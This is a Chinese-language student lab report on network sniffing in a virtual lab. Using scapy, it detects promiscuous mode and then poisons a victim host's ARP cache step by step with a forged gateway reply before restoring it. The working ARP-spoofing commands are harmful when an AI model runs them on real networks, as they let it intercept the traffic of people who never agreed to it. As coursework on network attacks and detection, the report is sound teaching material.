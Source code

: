 # 实验四 网络监听

### 实验环境

**拓扑图**

<img title="" src="img/Topology.png" alt="" data-align="center">

**网络配置**

- 网关
  
  `08 : 00 : 27 : 4b : a0 : 35/enp0s9`
  
  `172.16.111.1`
  
  <img title="" src="img/gatewayIP.png" alt="" data-align="center">

- 攻击者主机
  
  `08 : 00 : 27 : 15 : 1a : 80/eth0`
  
  `172.16.111.120`
  
  <img src="./img/attacker.png" title="" alt="" data-align="center">

- 受害者主机
  
  `08 : 00 : 27 : 79 : f4 : 83/eth0`
  
  `172.16.111.121`
  
  <img title="" src="img/victim.png" alt="" data-align="center">

### 准备工作

**安装scapy**

在攻击者主机上提前安装好 [scapy](https://scapy.net/)

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

<img src="img/Installscapy.png" title="" alt="" data-align="center">

### 实验一 检测局域网中的异常中断

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

<img title="" src="img/Check%20the%20promiscuous%20mode2.png" alt="" data-align="center">

```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

<img src="img/enable%20scapy.png" title="" alt="" data-align="center">

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")

# 注意上述输出结果里应该没有出现 PROMISC 字符
```

<img src="img/promiscping.png" title="" alt="" data-align="center">

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](img/enablepromisc.png)

再回到攻击者主机执行`promiscping` 命令

```bash
pkt = promiscping("172.16.111.121")
```

<img src="img/promiscpingsuccess.png" title="" alt="" data-align="center">

可以看出在混杂模式下，受害者主机收到了这个数据包

下面是用wireshark观察受害者主机的eth0网卡

<img src="img/wireshark.png" title="" alt="" data-align="center">

可以发现收到了promiscping 命令发送的 ARP数据包

通过对比是否开启网卡的**混杂模式**的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，普通模式下发送不会成功

### 实验2 手工单步“毒化”目标主机ARP缓存

“毒化”过程均在攻击者主机的`scapy`交互式终端进行

- **获取当前局域网的网关MAC地址**
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  <img src="img/fakeARP.png" title="" alt="" data-align="center">

- **伪造网关的ARP响应包**
  
  ```bash
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:15:1a:80")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  
  <img src="img/victimARP.png" title="" alt="" data-align="center">
  
  网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

- **恢复受害者主机的ARP缓存记录**
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="172.16.111.121", hwdst="08:00:27:79:f4:23")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  <img src="IMG/recoverARP1.png" title="" alt="" data-align="center">
  
  在受害者主机上再次查看ARP缓存
  
  <img src="IMG/recoverARP2.png" title="" alt="" data-align="center">
  
  此时网关也能ping通

### 问题及解决

- scapy命令报错
  
  <img src="img/scapyerro.png" title="" alt="" data-align="center">
  
  改为`sudo scapy`提高一下权限就解决了

- 无法发送伪造的ARP广播包
  
  首先得确保攻击者主机、网关、受害者主机在同一局域网内，我的网卡配置如下：
  
  | 主机    | 网卡                          |
  | ----- | --------------------------- |
  | 攻击者   | 内部网络（internet1）             |
  | 受害者主机 | 内部网络（internet1）             |
  | 网关    | 网络地址转换（NAT）、内部网络（internet1） |
  
  这里需要注意的是：攻击者主机尽量启用唯一网卡，原因是当有多张网卡时，发送ARP广播包时无法从内部网络（internet1）这张网卡发出，既然“发错了局域网”，就会导致无法到达受害者主机

### 参考资料

[How to Install and Use Wireshark on Ubuntu](https://linuxhint.com/install_wireshark_ubuntu/)

[scapy ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)
